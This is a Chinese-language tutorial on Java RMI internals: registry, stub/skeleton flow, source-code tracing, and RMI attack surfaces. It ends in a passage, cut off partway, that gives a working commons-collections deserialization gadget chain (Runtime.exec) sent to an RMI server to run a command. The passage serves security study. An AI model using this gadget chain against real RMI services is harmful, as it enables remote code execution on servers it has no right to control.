# RMI基础

## 初识RMI

RMI（Remote Method Invocation）即 Java 远程方法调用，能够让一台 Java 虚拟机上的对象调用另一台运行中的 Java 虚拟机上的对象的方法，实现 Java 程序之间跨 JVM 的远程通信。该远程方法调用是分布式编程的基本思想之一，可以使客户端上的程序调用远程服务端上的对象。

RMI 使用的通信协议为 JRMP（Java Remote Message Protocol ，Java 远程消息交换协议），类似于传统的 HTTP 协议，规定了通信双方需要满足的规范。在 RMI 中，对象通过序列化的方式进行传输，这也是能造成反序列化攻击的条件之一。

从设计角度看，RMI分为三层架构模式：RMI 客户端、RMI 服务端和 RMI 注册中心：

- RMI-客户端：客户端调用服务端上的对象方法；
- RMI-服务端：为客户端提供调用的对象方法，一般执行完成后给客户端返回对应的方法执行结果；
- RMI-注册中心：本质上为一个 Map，给客户端提供需要调用方法的引用（需要特别注意的是，在低版本 JDK 中，服务端和注册中心可以不用在同一台服务器上；但在高版本的 JDK 中，服务端和注册中心必须在同一台服务器上，否则会注册失败）。

## RMI对象调用

前面我们知道，RMI 的出现解决了Java 程序之间跨 JVM 的远程通信问题，那么它是如何从 JVM A（客户端）访问JVM B（服务端）上的对象呢？

首先，RMI 将一个远程对象的 Stub（存根）传递给客户端，Stub 相当于远程对象的引用或者代理。对于开发者，Stub 是透明的，客户端可以像调用本地方法一样直接通过它来调用远程方法。Stub 包含了远程对象的定位信息，比如 Socket 端口和服务端的主机地址等等，除此之外还实现了远程调用过程中具体的底层网络通信细节。

位于服务端的 Skeleton（骨架）能够读取客户端传递的方法参数，从而调用服务端上对应的对象方法，最后接收对象方法执行完后的返回结果。以下是简单的 RMI 远程对象调用逻辑图：


从上图中我们可以看到，实际的通信过程是：客户端 --> Stub --> Skeleton --> 服务端，具体的通信过程为：

- 服务端监听一个端口，端口为 JVM 随机指定；
- 客户端从 Stub 获取到服务端远程对象的通信地址和端口，客户端可以调用 Stub 上的具体方法和发送具体的方法参数；
- Stub 连接到服务端上监听的 Socket 端口并提交方法参数；
- 服务端执行具体的对象方法，并将结果返回到 Stub；
- Stub 再将执行结果返回到客户端上。

弄清楚了 RMI 远程对象方法调用的流程，还有一个问题我们需要关心，即 Stub 是如何获取到远程服务端的通信信息？

接下来引出下一个主角：RMI Registry。

## RMI Registry

为了解决我们上面说的问题，JDK 提供了 RMI Registry（RMI注册表）。RMI Registry 也是一个远程对象，监听端口默认为 1099。

下面是一个 RMI Registry 的注册 demo：
```java
// 创建远程对象
HelloInterface helloClass = new HelloClass();
// 创建RMI Registry(注册表)
Registry registry = LocateRegistry.createRegistry(1099);
// 将远程对象注册到注册表,设置名称为hello
registry.rebind("hello", helloClass);
System.out.println("RMI Server start...");
```

完成了 RMI Registry 的注册之后，我们编写一个简单的 RMI 客户端 demo 调用：
```java
public class RmiClient {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        HelloInterface helloClass = (HelloInterface) registry.lookup("hello");
        // 调用远程对象hello的方法
        System.out.println(helloClass.sayHello());
    }
}
```

在该 demo 中，通过`LocateRegistry.getRegistry()`方法在客户端本地创建一个 Stub 对象作为 Registry 远程对象的代理，随后客户端可以从 RMI 注册表中查询某个远程对象的名称，获取该远程对象的 Stub。

引入 RMI Registry 后，RMI 更详细的调用关系如下图所示：


## RMI客户端与服务端

下面我们通过一个简单的示例代码完成 RMI 的客户端与服务端通信过程。

服务端--编写`HelloInterface`接口：

- 需要使用 public 声明；
- 需要继承于 Remote 类；
- 接口类的方法需要声明`java.rmi.RemoteException`异常；

```java
package com.rmi.server;

import java.rmi.Remote;
import java.rmi.RemoteException;

/**
 * Created by dotast on 2023/1/3 17:12
 */
public interface HelloInterface extends Remote {
    public String sayHello() throws RemoteException;
}
```

服务端--编写接口实现类`HelloClass`：

- 实现接口类；
- 继承于`UnicastRemoteObject`类，不继承的话则需要手工初始化远程对象，在构造方法调用`UnicastRemoteObject.exportObject()`静态方法；
- 方法（包括构造方法）需要声明`java.rmi.RemoteException`异常；
- 实现类中使用的对象需要继承于`java.io.Serializable`接口以支持序列化，并且客户端的`serialVersionUID`属性值要与服务器端保持一致；

```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * Created by dotast on 2023/1/3 17:14
 */
public class HelloClass extends UnicastRemoteObject implements HelloInterface {

    protected HelloClass() throws RemoteException {
    }

    @Override
    public String sayHello() throws RuntimeException {
        System.out.println("hello, dotast");
        return "hello, dotast";
    }
}
```

服务端--编写`RmiServer`类注册远程对象到注册表中
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws RemoteException {
        // 创建远程对象
        HelloInterface helloClass = new HelloClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称为hello
        registry.rebind("hello", helloClass);
        System.out.println("RMI Server start...");
    }
}
```

客户端--编写`RmiClient`类调用服务端上的远程对象方法
```java
package com.rmi.client;

import com.rmi.server.HelloInterface;

import java.rmi.NotBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws RemoteException, NotBoundException {
        //获取远程主机对象
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
        // 在注册表中查询名称为hello的对象
        HelloInterface helloClass = (HelloInterface) registry.lookup("hello");
        // 调用远程对象hello的方法
        System.out.println(helloClass.sayHello());
    }
}
```

先运行服务端，然后在运行客户端完成一次调用流程。

服务端运行结果：


客户端运行结果：


客户端成功调用服务端上的远程对象`HelloClass`的`sayHello()`方法。

## 通过源码分析RMI流程

### RMI Registry

#### Registry的创建流程

上述 demo 中我们通过`LocateRegistry.createRegistry(1099)`方法创建了 RMI 注册表，打个断点跟进该方法


创建了一个`RegistryImpl`对象，跟进该构造方法


跟进`setup()`方法


继续跟进`UnicastServerRef.exportObject()`方法


继续跟进`setSkeleton()`方法


上图可以看到，在该方法中创建了 Skeleton（骨架），继续跟进


`createSkeleton()`方法最后返回一个`sun.rmi.registry.RegistryImpl_Skel`类对象。

总结流程如下所示：


#### 与远程对象的交互

RMI Registry 与远程对象的交互方式主要有以下几种：

- bind
- list
- lookup
- rebind
- unbind

RMI Registry 操作远程对象就是操作`HashTable`，我们以前面所使用的`rebind()`方法为例，跟进看看


RMI Registry 通过该方法将指定的远程对象和所设置的 name 进行绑定，形成一张存在一一对应关系的路由表。


### 客户端(Client)

在前面的 demo 中，我们通过如下语句获取了服务端的 Registry 并对远程对象进行查询
```java
//获取远程主机对象
Registry registry = LocateRegistry.getRegistry("127.0.0.1",1099);
// 在注册表中查询名称为hello的对象
HelloInterface helloClass = (HelloInterface) registry.lookup("hello");
```

打上断点


可以看到`LocateRegistry.getRegistry()`方法返回的对象为`RegistryImpl_Stub`，该类中的方法为：


因此客户端对远程对象的操作方法也和 Registry 一样。我们以现在使用的`lookup()`方法为例跟一下源码看看


通过`RemoteCall`对象建立通信连接，其中`newCall()`方法的参数 opnum 为操作数，hash 为 serializeID，跟进`newCall()`方法看看


在该方法中，通过`newConnection()`方法和服务端建立通信连接，接着后面又调用了`StreamRemoteCall()`方法，继续跟进看看


将传入的`ObjID`、`opnum`和`serializeID`写入数据发送到服务端，回到`lookup()`方法


接下来的操作就是通过`writeObject()`序列化对象数据发送到服务端上，最后通过`invoke()`和`done()`接受处理服务端返回的信息。

总结流程如下所示：


### 服务端(Server)

在 RMI 的通信过程中，服务端至少开启了两个端口，一个是 RMI Registry 注册表的 1099 端口，另一个则是随机的端口号，用于与客户端进行通信。前面我们提过，远程对象的方法是在服务端上执行，最后将执行结果返回到客户端中。在对 RMI Registry 和客户端的流程分析中，我们知道 Registry 会生成一个`RegistryImpl_Skel`对象，客户端则会生成一个`RegistryImpl_Stub`对象，这两者会进行通信。下面我们通过调试源码探究一下它们的通信过程。

我们从前面分析 RMI Registry 的`UnicastServerRef#exportObject()`处跟起


跟进`this.ref.exportObject()`方法


跟进`listen()`方法


在该方法中，启动了新的线程，此外还可以看到 server 随机开启了 65522 端口用来与客户端进行通信，还是在该类的`run()`方法打上断点，调到该断点


跟进`executeAcceptLoop()`方法


在执行完`this.serverSocket.accept()`该条语句后，服务端才开始等待客户端的连接


到这里服务端已经开始监听客户端的通信，接下来我们把断点打在`TCPTransport.connectionThreadPool.execute()`方法上，然后运行客户端与服务端进行通信


跟进`ConnectionHandler`句柄的`run()`方法


继续跟进`run0()`方法


往下走到了`handleMessages()`方法


跟进到`handleMessages()`方法


可以看到创建了`StreamRemoteCall`对象，随后又调用了`serviceCall()`方法，跟进该方法


`serviceCall()`方法的参数是客户端传来的 RemoteCall 对象，在该方法里，对客户端传来的信息进行读取和操作，继续往下走


调用了`dispatch()`方法，跟进直到`RegistryImpl_Skel.dispatch()`方法中


在该方法中完成对客户端传来的信息的最后处理。

总结流程如下图所示：


## 利用RMI进行攻击

根据前面的 demo 和源码分析 RMI 的过程，我们可以简化其调用流程为：服务端先创建 RMI Registry 注册表，通过`rebind`绑定远程对象，当客户端需要调用远程对象的方法时，通过 rmi 地址连接到 RMI Registry，调用`lookup`方法查询服务端是否绑定查找的远程对象。如果存在，RMI Registry 返回服务端的地址和随机开放的端口等待客户端连接，客户端连接后调用远程对象方法。远程对象方法在服务端执行完后将执行结果返回到客户端。

梳理完 RMI 的调用流程，现在开始说说 RMI 机制带来的新攻击面。目前通过 RMI 攻击的方式主要有以下几种：

- 调用远程恶意方法
- 通过`codebase`执行任意代码
- RMI 反序列化攻击

由于利用`codebase`执行任意代码攻击的实现条件较为苛刻，在实战中也几乎遇不到，所以本文暂不提及该利用方式。

### 调用远程恶意方法

见名知意，很容易理解，如果服务端上的远程对象包含恶意方法，就可以通过调用该方法实现恶意攻击。在客户端可以通过`list`方法列出所有远程对象
```java
// 列出所有远程对象
String[] objList = registry.list();
System.out.println(objList);
```


为此，有人写了一款工具：https://github.com/NickstaDB/BaRMIe，用于探测远程对象的危险方法。

思路活跃的师傅很快就能想到，如果服务端 RMI Registry 没有注册我们需要的恶意对象，是否可以在客户端将恶意对象进行注册进行利用？但遗憾的是，开发者也想到了这个安全隐患，对客户端远程访问 RMI Registry 做了限制，只有客户端来源地址为 localhost 本地的时候，才能调用`bind`、`rebind`和`unbind`等方法。

### RMI反序列化攻击

RMI 有一个核心特点，就是动态类加载。如果当前的 JVM 没有某个类的定义，RMI 可以通过远程下载这个类的 class 文件进行动态加载。这么做有什么好处呢？

我们知道 RMI 完成一次远程调用对象方法，需要客户端和服务端都准备好各自所需的类文件，当客户端变多起来，就需要维护多个客户端的类文件。一旦类需要修改，维护每个客户端的工作的繁琐程度将呈几何倍地上升。因此通过动态类加载可以很好的解决这个问题，我们仅需要将类文件归纳在某个路径下，客户端调用时指定该路径地址就可以自动加载所需要的类文件。

既然能动态的加载类文件，而且在 RMI 中，对象通过序列化的方式进行传输，那么就避不开序列化与反序列化，如果客户端、服务端和 RMI Registry 任意一端存在重写的`readObject()`方法，就可以进行反序列化攻击。

回顾一下前面说过的交互方式，我们已经总结出一共有以下五种：

- bind
- list
- lookup
- rebind
- unbind

这五种方法的关键代码我们前面调试的时候其实已经接触过，在`RegistryImpl_Skel#dispatch()`方法中，接下来一个个再进行列举说明。

**list**

`list()`方法用于获取 RMI Registry 注册表上绑定的远程对象

```java
case 1:
                    var2.releaseInputStream();
                    String[] var97 = var6.list();

                    try {
                        ObjectOutput var98 = var2.getResultStream(true);
                        var98.writeObject(var97);
                        break;
                    } catch (IOException var92) {
                        throw new MarshalException("error marshalling return", var92);
                    }
```

没有我们需要的`readObject()`方法，因此无法用于反序列化攻击。

**bind&rebind**

`bind()`方法与`rebind()`方法功能类似，都用于在 RMI Registry 注册表上绑定远程对象

```java
# bind()方法
case 0:
                    try {
                        var11 = var2.getInputStream();
                        var7 = (String)var11.readObject();
                        var8 = (Remote)var11.readObject();
                    } catch (IOException var94) {
                        throw new UnmarshalException("error unmarshalling arguments", var94);
                    } catch (ClassNotFoundException var95) {
                        throw new UnmarshalException("error unmarshalling arguments", var95);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.bind(var7, var8);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var93) {
                        throw new MarshalException("error marshalling return", var93);
                    }
# rebind()方法
case 3:
                    try {
                        var11 = var2.getInputStream();
                        var7 = (String)var11.readObject();
                        var8 = (Remote)var11.readObject();
                    } catch (IOException var85) {
                        throw new UnmarshalException("error unmarshalling arguments", var85);
                    } catch (ClassNotFoundException var86) {
                        throw new UnmarshalException("error unmarshalling arguments", var86);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.rebind(var7, var8);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var84) {
                        throw new MarshalException("error marshalling return", var84);
                    }
```

在`bind()`方法与`rebind()`方法中，会调用`readObject()`方法获取参数名以及远程对象（只接受 String 和 Remote 类对象的反序列化），因此当服务端存在如 CC 等相关组件，就可以造成反序列化攻击。

**lookup&unbind**

`lookup()`方法用于查找 RMI Registry 注册表绑定的远程对象，而`unbind()`则用于解绑 RMI Registry 已经绑定的远程对象

```java
# lookup()方法
case 2:
                    try {
                        var10 = var2.getInputStream();
                        var7 = (String)var10.readObject();
                    } catch (IOException var89) {
                        throw new UnmarshalException("error unmarshalling arguments", var89);
                    } catch (ClassNotFoundException var90) {
                        throw new UnmarshalException("error unmarshalling arguments", var90);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var8 = var6.lookup(var7);

                    try {
                        ObjectOutput var9 = var2.getResultStream(true);
                        var9.writeObject(var8);
                        break;
                    } catch (IOException var88) {
                        throw new MarshalException("error marshalling return", var88);
                    }
# unbind()方法
case 4:
                    try {
                        var10 = var2.getInputStream();
                        var7 = (String)var10.readObject();
                    } catch (IOException var81) {
                        throw new UnmarshalException("error unmarshalling arguments", var81);
                    } catch (ClassNotFoundException var82) {
                        throw new UnmarshalException("error unmarshalling arguments", var82);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.unbind(var7);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var80) {
                        throw new MarshalException("error marshalling return", var80);
                    }
```

`lookup()`方法与`unbind()`方法都含有`readObject()`方法，但可以看到需要满足 String 类型。虽然不能直接利用，但我们可以通过伪造连接请求进行利用。

#### 攻击服务端

当服务端上的远程对象方法的参数中含有 Object 类型，客户端可以通过发送恶意的对象，服务端在接受客户端的序列化数据后进行反序列化，就会造成反序列化攻击。

下面我们以存在`commons-collections 3.2.1`依赖的环境进行演示：

服务端--`UserInterface`
```java
package com.rmi.server;

import java.rmi.Remote;
import java.rmi.RemoteException;

/**
 * Created by dotast on 2023/1/3 17:12
 */
public interface UserInterface extends Remote {
    public Object getUser() throws RemoteException;

    public void setUser(Object user) throws RemoteException;
}
```

服务端--`UserClass`
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

/**
 * Created by dotast on 2023/1/3 17:14
 */
public class UserClass extends UnicastRemoteObject implements UserInterface {

    protected UserClass() throws RemoteException {
    }

    @Override
    public Object getUser() throws RemoteException {
        return null;
    }

    @Override
    public void setUser(Object user) throws RemoteException {
        System.out.println("调用setUser方法成功");
    }
}
```

服务端--`RmiServer`
```java
package com.rmi.server;

import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * Created by dotast on 2023/1/3 17:13
 */
public class RmiServer {
    public static void main(String[] args) throws RemoteException {
        // 创建远程对象
        UserInterface userClass = new UserClass();
        // 创建RMI Registry(注册表)
        Registry registry = LocateRegistry.createRegistry(1099);
        // 将远程对象注册到注册表,设置名称
        registry.rebind("user", userClass);
        System.out.println("RMI Server start...");
    }
}
```

客户端--`RmiClient`
```java
package com.rmi.client;

import com.rmi.server.UserInterface;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2023/1/4 16:39
 */
public class RmiClient {
    public static void main(String[] args) throws Exception {
        // CC链gadget
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建ChainedTransformer调用链
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        // 创建Map对象
        Map<Object, Object> map = new HashMap<>();
        map.put("value","value");
        // 调用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, chainedTransformer);

        // 获取AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        // 获取AnnotationInvocationHandler类的构造方法
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        // 设置方法访问权限
        constructor.setAccessible(true);
        // 创建含有攻击链的AnnotationInvocationHandler类实例
        Object instance = constructor.newInstance(Target.class, transformedMap);

        //获取远程主机对象
